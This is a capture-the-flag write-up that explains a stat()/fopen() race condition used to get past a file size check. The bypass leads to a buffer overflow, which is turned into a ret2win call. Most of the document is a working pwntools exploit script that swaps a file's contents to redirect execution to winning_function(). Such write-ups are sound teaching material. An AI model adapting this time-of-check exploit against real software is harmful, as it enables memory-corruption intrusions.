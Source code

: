 [[Pwn]]


## Race condition binary exploitation

- This binary accepts a file path and reads it content up to 4096 bytes then passed it to buffer variable with 80 bytes size. This is indeed buffer overflow, but there's a check for the file size that should not more than 80 bytes. We can bypass it with race condition.
- We passed a dummy file with small size, then immediately replace the content with our exploit payload to bypass the file size check. This is applicable because after check the file using `stat()` the same file path is used for `fopen()` after passing all the check condition.
- There's a `winning_function()` inside this binary. We use ret2win technique to exploit this binary.


## Solver
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
	if args.GDB: # Set GDBscript below
		return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
	elif args.REMOTE: # ('server', 'port')
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else: # Run locally
		return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)

gdbscript = '''
init-pwndbg
cyclic 120
continue
'''.format(**locals())

# Binary filename
exe = './nahmnahmnahm'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
# EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = 104
# Start program
io = start()

open("/tmp/ghost", 'w').write("Gh0sted")
io.sendlineafter(": ", b"/tmp/ghost")

# Build the payload
payload = flat({
	offset: [
	elf.sym['winning_function']
]})

# Send the payload
open("/tmp/ghost", "wb").write(payload)
io.sendlineafter(":\n", b"")
io.interactive()
```
